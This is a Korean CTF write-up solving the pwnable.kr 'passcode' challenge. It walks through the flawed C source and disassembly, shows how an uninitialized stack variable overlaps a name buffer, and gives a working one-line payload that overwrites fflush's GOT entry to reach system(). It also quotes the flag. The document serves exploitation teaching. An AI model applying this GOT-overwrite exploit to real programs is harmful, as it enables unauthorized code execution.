

passcode Solution
===================


이번 passcode 문제는 ssh를 통해 접속해 flag를 얻어야 한다. 문제를 읽어보면 로그인 시스템을 구현해 놓았지만 컴파일 시 경고가 있었다는 것을 보면 취약점이 존재하는듯 하다. 자세한 내용은 접속해서 살펴본다.


사용자 정보와 현재 디렉터리 정보이다. 이전 문제들과 비슷하게 현재 권한으로 읽을 수 없는 flag 파일과 바이너리 passcode, 소스 코드 파일 passcode.c가 있다. passcode.c의 내용을 살펴보자.

- passcode.c 

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
    scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
        printf("Login OK!\n");
        system("/bin/cat flag");
    }
    else{
        printf("Login Failed!\n");
		exit(0);
    }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

passcode.c 는 welcome() 함수에서 사용자로부터 이름을 입력받고, login() 함수에서 두 passcode를 사용자로부터 입력받아 특정 정수 값과 비교해 일치하면 /bin/cat flag를 실행하고 있다. 이 코드에는 큰 결함이 존재한다. login() 함수의 두 scanf()에서 passcode1과 passcode2의 주소가 아닌 두 변수 자체를 인자로 전달하고 있는 것이다. 이 경우 접근할 수 없는 메모리에 접근을 시도하거나 메모리의 중요한 정보가 조작될 수 있다. 이 취약점을 exploit 하는 것을 목표로 디버깅을 시작한다. 

- asm code for welcome()

```assembly
Dump of assembler code for function welcome:
   0x08048609 <+0>:	push   %ebp
   0x0804860a <+1>:	mov    %esp,%ebp
   0x0804860c <+3>:	sub    $0x88,%esp
   0x08048612 <+9>:	mov    %gs:0x14,%eax
   0x08048618 <+15>:	mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:	xor    %eax,%eax
   0x0804861d <+20>:	mov    $0x80487cb,%eax
   0x08048622 <+25>:	mov    %eax,(%esp)
   0x08048625 <+28>:	call   0x8048420 <printf@plt>
   0x0804862a <+33>:	mov    $0x80487dd,%eax
   0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:	mov    $0x80487e3,%eax
   0x08048643 <+58>:	lea    -0x70(%ebp),%edx
   0x08048646 <+61>:	mov    %edx,0x4(%esp)
   0x0804864a <+65>:	mov    %eax,(%esp)
   0x0804864d <+68>:	call   0x8048420 <printf@plt>
   0x08048652 <+73>:	mov    -0xc(%ebp),%eax
   0x08048655 <+76>:	xor    %gs:0x14,%eax
   0x0804865c <+83>:	je     0x8048663 <welcome+90>
   0x0804865e <+85>:	call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:	leave  
   0x08048664 <+91>:	ret   
```

<+38>에서 %esp+0x4 번지에 %ebp-0x70 을 대입하고 있다. 이는 welcome() 함수의 scanf()의 두 번째 인자로 들어갈 배열 name의 주소이다. 즉, %ebp-0x70은 name의 시작 주소이다. 

- asm code for login()

```assembly
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
```

<+24>에서 첫 scanf()의 두 번째 인자로 전달될 passcode1 값을 %esp+0x4에 저장하고 있다. 즉, 로컬 변수 passcode1의 주소는 %ebp-0x10이다. (물론 welcome()에서의 %ebp 값과 login()에서의 %ebp 값은 다를 수 있다.) welcome()의 scanf() 입력 직후와 login() 첫 scanf() 입력 직전에 중단점을 걸어 프로그램을 실행해보자. 이 때 welcome()의 입력에서는 길이가 100인 문자열을 입력해본다. 


welcome()에서 배열 name의 마지막 4 byte 부분과 login()에서 passcode1의 주소가 겹치는 것을 확인할 수 있다. 이를 이용해 login()에서 scanf()에 전달될 두 번째 인자인 passcode1의 값을 원하는 주소 값으로 변경해 해당 주소에 원하는 값을 써 넣을 수 있다. 

이 passcode1의 값을 PLT 함수의 GOT 테이블 주소로 변경하면, 해당 GOT 테이블을 조작해 원하는 주소의 instruction을 임의로 실행할 수 있다.

첫 번째 scanf()의 실행 후 fflush() 함수의 PLT에 접근하므로 fflush() PLT의 GOT 테이블 주소를 name의 마지막 4바이트로 설정한다.



fflush() PLT의 GOT 테이블 주소는 0x0804a004 이다. passcode1 값을 이 값으로 바꾸어 GOT 테이블을 조작한다. 우리는 system("/bin/cat flag"); 를 실행하는 것이 목적이므로 login() 함수에서 해당 부분의 주소인 0x080485e3 를 입력 값으로 전달하면 정상적으로 /bin/cat flag가 실행될 것이다.

```bash
$ python -c 'print("a" * 96 + "\x04\xa0\x04\x08" + "134514147")' | ./passcode
```

GOT 테이블을 조작하는 scanf() 에서 형식이 %d로 지정되어 있으므로 0x080485e3을 십진수로 바꾸어 134514147로 입력했다. 


"Sorry mom.. ..."이 /bin/cat flag로 읽은 이번 문제의 flag이다. 